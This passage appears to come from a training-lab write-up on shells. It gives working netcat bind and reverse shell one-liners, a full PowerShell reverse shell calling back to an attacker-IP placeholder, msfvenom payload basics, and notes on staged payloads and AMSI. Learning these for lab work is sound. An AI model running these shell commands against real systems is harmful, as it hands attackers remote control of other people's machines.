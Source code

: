 ```console
# Bind Shell Listener
mkfifo /tmp/f; nc -lvnp <Port-Number> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# Reverse Shell Payload
mkfifo /tmp/f; nc <Attacker-IP> <Attacker-Port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
When targeting Windows systems, a Powershell one liner can be very useful.

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<Attacker-IP>',<Attacker-Port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Multitude of payloads can be generated for both Linux and Windows at: [Reverse Shell Generator](https://www.revshells.com/)

## Task 9 - Msfvenom
Msvenom is considered the one-stop-shop for all things payload related. Being part of the Metasploit Framework, Msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hex shellcode when developing something like a Buffer Overflow exploit.

The standard syntax for Msfvenom is as follows:

```console
msfvenom -p <PAYLOAD> <OPTIONS>
```
Various payloads can be listed using the command `--list-payloads`. All relevant options can be listed using the `-h` syntax.

### Staged vs Stageless
- **Staged payloads** are sent in two parts. The first part is called the *stager*. This is a piece of code which is executed directly on the target itself. It then connects back to a waiting listener and downloads the real payload; executing it in memory without the payload every touching the disk. Staged payloads require a special listener (usually multi/handler).
- **Stageless payloads** are more common. These are self-contained in that there is only one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to catch and use. They are larger in size and easier for an antivirus or IDS/IPS to discover and remove.

Modern day antivirus solutions make use of the Anti-Malware Scan Interface (AMSI) to detect payloads as they are loaded into memory by a stager. This makes staged payloads less effective then they once were.

## Task 10 - Metasploit multi/handler
Multi/handler is an excellent tool for catching reverse shells. It is essential if you want to use Meterpreter shells.
